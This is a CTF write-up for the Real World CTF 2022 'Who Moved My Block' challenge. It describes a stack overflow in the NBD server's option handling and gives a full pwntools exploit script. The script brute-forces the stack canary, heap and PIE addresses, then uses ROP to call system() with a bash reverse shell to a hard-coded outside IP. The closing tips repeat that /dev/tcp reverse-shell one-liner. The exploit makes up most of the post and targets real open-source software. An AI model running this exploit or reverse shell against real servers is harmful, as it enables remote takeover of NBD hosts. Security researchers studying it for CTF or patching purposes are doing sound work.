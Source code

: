 ```yaml
---
title: Who Moved My Block-Real World Stack Overflow
date: 2022-01-23 16:22:21
tags: 
---
```

Who Moved My Block, rwctf 2022
<!--more-->

# Prelude

Real world CTF is my first CTF in 2022, I had a great time with my teammates@r3kapig! Especially thanks to @2019 @crazyman, we solved the challenge together!

This challenge is my first real-world challenge. Someone calls it “clone and pwn” challenge, which means we should clone the latest version of the project and pwn it with 0day vulnerability.

Also, nbd is a small project and we could finish the code review part quickly.

# Set-up

Project Link: [https://github.com/NetworkBlockDevice/nbd](https://github.com/NetworkBlockDevice/nbd)

Commit: 5750003711b8050bad3ddaf5196201ef419ce15d

Make:

```bash
./configure --enable-debug && \\
make && \\
make install
```

# Solution

The solution is similar to **CVE-2018-1160, Metatalk in Hitcon 2021.**

1. Read the source code and find the vulnerability.
2. I find two vulnerabilities one `Heap-Overflow` and one `Stack-Overflow`in function `handle-info` 
3. The `heap-overflow` is hard to use, cuz we need to construct the heap Fengshui carefully.
4. While the `Stack-Overflow` one is easy to use, we could get the addresses of pie/heap/canary by judging the statement of connection (crash or hang).
5. ROP to get a reversed shell

# Exp

```python
from code import interact
from distutils.dir_util import copy_tree
from re import sub
from pwn import *
import subprocess
#context.log_level = 'debug'
context.arch='amd64'
DEBUG = 0
if(DEBUG):
    ip = "0.0.0.0"
    port = 6666
else:
    ip = "47.242.113.232"
    port =49265
p = None
ru = lambda x: p.recvuntil(x)
rl = lambda  : p.recvline()
ra = lambda  : p.recvall()
rv = lambda x: p.recv(x)
sn = lambda x: p.send(x)
sl = lambda x: p.sendline(x) 
sa = lambda x,y: p.sendafter(x,y) 
def pow():
    ru('sha256("')
    tmp = ru('"')[:-1].decode()
    c1 = "gcc ./pow.c -lcrypto -o ppp".split(' ')
    c2 = f"./ppp {tmp}".split(' ')
    c3 = "rm ./ppp".split(' ')
    subp = subprocess.Popen(c1)
    subp.wait()
    print(c2)
    subp = subprocess.Popen(c2)
    res,_ = subp.communicate()
    subp = subprocess.Popen(c3)
    subp.wait()
    print(res,_)
def anum(n):
    sn(p32(n,endian='big'))
def NBD_OPT_EXPORT_NAME(payload):
    anum(1)
    anum(len(payload))
    sn(payload)
def NBD_OPT_LIST():#baned
    sn(p64(0x54504f4556414849))
    anum(3)
    anum(1)    
def NBD_OPT_STARTTLS(size,c):#Set stack
    anum(5)
    anum(size)
    sn(c)
def NBD_OPT_INFO(buf):
    anum(7)
    anum(len(buf)+4)
    anum(len(buf)+4)
    sn(buf)
    p.read()
    pad = b" "*0x10+b'''sleep 3;bash -c 'exec bash -i &>/dev/tcp/49.234.220.122/20191 <&1';'''*0x6
    sn(pad.ljust(len(buf)+4,b'\0'))
    sn(p16(0,endian='big'))
    p.readuntil("nown")
def single_req(base,guess):
    global p
    p = remote(ip,port)
    sa("OPT\x00\x03",p32(0))
    sn(p64(0x54504f4556414849))
    NBD_OPT_INFO(base+guess)
    p.read(timeout=1)
def req(base,length):
    res = b""
    global p
    for x in range(length):
        flag=0
        for _ in range(0x100):
            log.success(f"Trying Pos:{x}:{hex(_)}")
            try:
            #if(1):
                guess = _.to_bytes(1,'little')
                single_req(base+res,guess)
                res+=guess
                flag=1
                break
            except:
                p.close()
                continue
        if(not flag):
            return 0
        log.warning(hex(u64(res.ljust(8,b'\0'))))
    res = u64(res.ljust(8,b'\0'))
    log.warning(hex(res))
    input()
    return res
def canary():
    base=b"A"*(0x408)+b'\0'
    length=7
    return req(base,length)
def leak_heap():
    global p

    base = b"A"*(0x408)+ p64(canary_val) +b"\0"*0x18
    length = 6
    return req(base,length)
def leak_pie():
    global p
    base = b"A"*(0x408)+ p64(canary_val) +b"\0"*0x18
    base+= p64(heap)+p64(0)+p64(heap-0x100)+p64(0)+b"\xea"
    length= 5
    return req(base,length)
def exploit(c):
    global p
    p = remote(ip,port)
    sa("OPT\x00\x03",p32(0))
    sn(p64(0x54504f4556414849))
    pay = b"A"*(0x408)+p64(canary_val)+b"\0"*0x18
    pay += p64(heap)+p64(0)+p64(heap-0x100)+p64(0)+c
    NBD_OPT_INFO(pay)
    p.interactive()
if __name__ == "__main__":
    canary_val = canary()
    heap  = leak_heap()
    pie = leak_pie()-0x96ea

    ret = 0x000000000000301a+pie 
    rdi = 0x0000000000004a58+pie
    system = 0x3bb0+pie

    
    r = flat([
        ret,rdi,heap+0x100*2,system
    ])
    exploit(r)
```

# Skills

I learned some useful skills from my teammates:

1. Use sleep xxx; to judge if the remote server is running our command.
2. System function behave different as the shell. `bash -c 'exec bash -i &>/dev/tcp/<>ip address/<port> <&1';` could work well. Before attack remotely, we could test the command locally first `system(<cmd>)` .